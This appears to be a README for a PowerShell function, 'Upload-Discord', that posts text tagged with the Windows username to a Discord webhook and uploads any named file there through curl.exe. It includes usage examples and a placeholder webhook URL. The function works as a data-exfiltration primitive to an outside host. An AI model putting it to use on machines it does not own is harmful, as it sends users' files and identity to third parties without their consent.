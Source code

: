 # Upload-Discord

```powershell
function Upload-Discord {

[CmdletBinding()]
param (
    [parameter(Position=0,Mandatory=$False)]
    [string]$file,
    [parameter(Position=1,Mandatory=$False)]
    [string]$text 
)

$hookurl = '<WEB HOOK>'

$Body = @{
  'username' = $env:username
  'content' = $text
}

if (-not ([string]::IsNullOrEmpty($text))){
Invoke-RestMethod -ContentType 'Application/Json' -Uri $hookurl  -Method Post -Body ($Body | ConvertTo-Json)};

if (-not ([string]::IsNullOrEmpty($file))){curl.exe -F "file1=@$file" $hookurl}
}
```
<br>

> [!NOTE]
> Usage:
> ```powershell
> Upload-Discord -text 'TEST'
> 
> Upload-Discord -file test.txt
> 
> Upload-Discord -file test.txt -text 'TEST'
>```

> [!IMPORTANT]
> It's necessary to change.
> ```powershell
>$hookurl = 'CHANGE!!'
>```
